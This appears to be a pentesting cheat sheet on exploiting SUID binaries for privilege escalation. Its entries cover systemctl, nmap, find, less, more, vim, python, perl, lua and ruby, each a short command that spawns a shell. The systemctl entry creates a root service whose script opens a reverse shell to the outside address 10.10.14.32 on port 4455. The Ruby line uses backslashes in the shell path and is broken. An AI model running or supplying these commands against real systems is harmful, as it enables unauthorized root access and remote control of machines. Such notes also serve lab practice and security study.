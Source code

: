 ```yaml
---
description: How to exploit SUID for the following files
---
```


# SUID

## systemctl

```bash
echo '[Service]              
> Type=oneshot
> User=root
> ExecStart=/bin/bash /home/pepper/getRoot.sh
> [Install]
> WantedBy=multi-user.target' > hack.service

## create getRoot.sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.32/4455 0>&1

systemctl link /home/pepper/hack.service
systemctl enable --now /home/pepper/hack.service
systemctl start hack.service
```

## Nmap

```bash
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

## FIND

```text
find . -exec bash -i \;

```

## LESS

```text
v
:shell
```

## MORE

```text
!bash
```

## VIM

```bash
!/bin/bash
#or
:shell
```

## PYTHON

```python
>> import os
>> os.system('/bin/bash')
```

## PERL

```perl
exec "/bin/bash";
# Ctrl D for EoF
```

## LUA

```lua
> os.execute("/bin/bash")
```

## RUBY

```ruby
exec "\bin\bash"
```

